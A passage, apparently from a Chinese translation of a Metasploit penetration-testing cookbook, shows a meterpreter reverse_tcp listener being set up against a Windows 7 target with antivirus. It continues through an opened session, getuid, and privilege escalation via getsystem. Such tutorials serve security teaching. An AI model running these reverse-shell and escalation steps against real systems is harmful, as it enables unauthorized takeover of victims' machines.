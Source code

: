 让我们从对 meterpreter 的快速介绍开始。Meterpreter 是一个高级有效载荷，极大地增强了对目标机器上命令执行的能力。它是一个命令解释器，通过内存中的 DLL 注入工作，并为我们提供了许多优势，相对于传统的命令解释器（通常存在于 shell 代码）来说，它更加灵活、稳定和可扩展。它可以像几个有效载荷一起在目标机器上工作。它通过分段套接字进行通信，并提供了全面的客户端端 ruby API。我们可以使用`windows/meterpreter`目录中可用的有效载荷来获得 meterpreter shell。在这个示例中，我们将使用`windows/meterpreter/reverse_tcp`有效载荷，我们的目标机器是运行 ESET NOD32 杀毒软件的 Windows 7。

让我们在 msfconsole 中设置监听器，并等待一个反向连接。

```
msf > use multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > show options
Module options (exploit/multi/handler):
Name Current Setting Required Description
---- --------------- -------- -----------
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh..
LHOST 192.168.56.101 yes The listen address
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Wildcard Target
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.56.101:4444
[*] Starting the payload handler... 
```

## 如何做到...

1.  所以我们的监听器现在已经准备好了。一旦客户端攻击成功地在目标上执行，我们将在 msfconsole 中打开一个 meterpreter 会话。

```
[*] Sending stage (752128 bytes) to 192.168.56.1
[*] Meterpreter session 2 opened (192.168.56.101:4444 -> 192.168.56.1:49188) at 2011-11-29 13:26:55 +0530
meterpreter > 
```

1.  现在，我们已经准备好利用 meterpreter 在我们的杀毒实验中的力量。我们将执行的第一个命令是`getuid`，它会给我们系统的用户名，我们已经破解了。用户可以是主管理员或者是一个权限较低的用户。

```
meterpreter > getuid
Server username: DARKLORD-PC\DARKLORD 
```

1.  看起来我们在刚刚渗透的系统中没有管理员特权。下一步将是提升我们的特权到管理员，以便我们可以在目标上执行命令而不受干扰。我们将使用`getsystem`命令，尝试将我们的特权从本地用户提升到管理员。

```
meterpreter > getsystem
...got system (via technique 4).. 
```
